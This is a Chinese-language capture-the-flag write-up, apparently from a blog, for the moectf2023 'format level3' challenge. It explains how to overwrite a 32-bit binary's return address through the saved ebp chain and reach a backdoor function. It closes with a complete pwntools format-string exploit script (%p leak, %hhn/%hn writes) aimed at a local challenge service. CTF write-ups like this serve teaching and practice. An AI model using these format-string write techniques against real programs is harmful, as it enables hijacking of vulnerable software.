 ```yaml
---
title: moectf2023 - format level3
date: 2023/9/26 12:00:00
updated: 2024/7/30 10:28:00
tags:
    - noob
excerpt: 通过利用ebp间接改写返回地址，成功利用后门漏洞解决format level3题目。
---
```


## 文件分析

下载`format_level3`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

和level2类似，存在后门，但是输入的str放到了.bss上

{% note tip fa-arrow-right %}
16字节还想把栈迁移到.bss上？直接爆了（栈上的空间本来也不够）

正解：通过ebp+4来利用ebp间接改写返回地址
{% endnote %}

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 39665)

# payload 1
sh.sendline(b'3')
sh.sendline(b'%6$p')

prevEbp = int(sh.recvuntil(b'\nBut', True)[-10:], 16) # ebp -> prevEbp -> prevPrevEbp
retAddr = prevEbp + 4

# payload 2
sh.sendline(b'3')
sh.sendline(f'%{retAddr & 0xff}d%6$hhn'.encode())     # ebp -> prevEbp -> retAddr

# payload 3
sh.sendlineafter(b'ice:',b'3') # 不加after会导致所有输出全部挤在一起，原因未知
sh.sendline(f'%{0x9317}d%14$hn'.encode()) # retAddr: main -> success

# payload 4
sh.sendlineafter(b'ice:', b'4') # let it return

sh.interactive()
```

Done.
